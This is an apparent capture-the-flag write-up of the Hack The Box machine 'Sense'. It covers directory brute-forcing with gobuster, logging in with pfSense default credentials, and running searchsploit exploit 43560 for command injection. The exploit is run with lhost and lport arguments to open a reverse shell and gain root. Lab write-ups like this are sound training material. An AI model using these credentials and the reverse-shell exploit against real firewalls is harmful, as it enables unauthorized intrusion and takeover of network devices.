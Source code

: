 ```yaml
---
description: https://app.hackthebox.com/machines/111
---
```


# 🪒 Sense

The first problem was to run the gobuster, i had the following error:

```
Error: error on running gobuster: unable to connect to https://10.129.220.62/: invalid certificate: x509: certificate has expired or is not yet valid: current time 2024-03-11T10:06:27Z is after 2023-04-06T19:21:35Z
```

The problem comes from an issue with the SSL certificate on the server. The certificate either has already expired or its validity period hasn't started yet, according to the system's clock.

So the command to fix this was:

```
gobuster dir -u https://10.129.220.62 -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt
```

we found a _**system-users.txt**_ directory after our scan ->&#x20;

<figure><img src="../../../.gitbook/assets/image (529).png" alt=""><figcaption></figcaption></figure>

So after a quick google search we can see that pfsense default credentials is:&#x20;

<figure><img src="../../../.gitbook/assets/image (530).png" alt=""><figcaption></figcaption></figure>

So via the login page at _**/index.html**_ ->

```
rohit
pfsense
```

we're in a control panel:

<figure><img src="../../../.gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

We find this command injection potentially useful:

<figure><img src="../../../.gitbook/assets/image (532).png" alt=""><figcaption></figcaption></figure>

after a  bit of enumeration, we can see how to abuse this CVE:

<figure><img src="../../../.gitbook/assets/image (533).png" alt=""><figcaption></figcaption></figure>

So let's go to this directory, and capture a request on burp:&#x20;

<figure><img src="../../../.gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>

Not sure if it's cheating (probably) but i found this script in a GitHub to exploit this vuln: [https://github.com/Alamot/code-snippets/blob/master/hacking/HTB/Sense/autopwn\_sense.py](https://github.com/Alamot/code-snippets/blob/master/hacking/HTB/Sense/autopwn\_sense.py)

- ***

Now let's see another way, let's be more manual:

<figure><img src="../../../.gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>

Copy the payload to your local machine:

```
searchsploit -m /path/to/exploit
```

<figure><img src="../../../.gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

now we look at the args:

<figure><img src="../../../.gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

```
python 43560;py --rhost 10.129.220.62 --lhost 10.10.14.62 --lport 8888 --username rohit --password pfsense
```

<figure><img src="../../../.gitbook/assets/image (538).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

nice one, get the user flag and root flag all in one ->

<figure><img src="../../../.gitbook/assets/image (540).png" alt=""><figcaption></figcaption></figure>
